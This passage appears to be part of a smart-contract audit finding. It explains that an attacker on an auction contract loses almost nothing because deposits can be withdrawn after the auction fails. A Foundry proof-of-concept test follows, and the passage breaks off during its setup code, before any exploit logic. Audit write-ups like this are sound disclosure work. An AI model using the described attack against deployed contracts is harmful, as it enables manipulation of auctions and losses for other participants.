 4. Attacker's loss can similar be zero
The attacker's loss can similar be zero (attacker' cost only include transaction fee,and minner will not reject a high gas price transaction) because they can immediately withdraw their previously deposited funds after the auction fails, significantly increasing the feasibility of the attack.

### PoC
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Test, console} from "forge-std/Test.sol";

import {Pool} from "../src/Pool.sol";
import {Token} from "./mocks/Token.sol";
import {Utils} from "../src/lib/Utils.sol";
import {Auction} from "../src/Auction.sol";
import {MockPool} from "./mocks/MockPool.sol";
import {BondToken} from "../src/BondToken.sol";
import {PoolFactory} from "../src/PoolFactory.sol";
import {Distributor} from "../src/Distributor.sol";
import {OracleFeeds} from "../src/OracleFeeds.sol";
import {LeverageToken} from "../src/LeverageToken.sol";
import {Deployer} from "../src/utils/Deployer.sol";
import {IERC20} from "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import {UpgradeableBeacon} from "@openzeppelin/contracts/proxy/beacon/UpgradeableBeacon.sol";
import {PausableUpgradeable} from "@openzeppelin/contracts-upgradeable/utils/PausableUpgradeable.sol";

contract AuctionTest is Test {
  Auction auction;
  Token usdc;
  Token weth;

  address bidder1 = address(0x1);
  address bidder2 = address(0x6);
  address house = address(0x2);
  address minter = address(0x3);
  address governance = address(0x4);
  address securityCouncil = address(0x5);

  address pool;

  function setUp() public {
    usdc = new Token("USDC", "USDC", false);
    weth = new Token("WETH", "WETH", false);
    
    pool = createPool(address(weth), address(usdc));
    useMockPool(pool);

    vm.startPrank(pool);
    auction = Auction(Utils.deploy(
      address(new Auction()),
      abi.encodeWithSelector(
        Auction.initialize.selector,
        address(usdc),
        address(weth),
        100000000000000000000000,//usdc 1e23
        block.timestamp + 10 days,
        1000,
        house,
        90
      )
    ));
```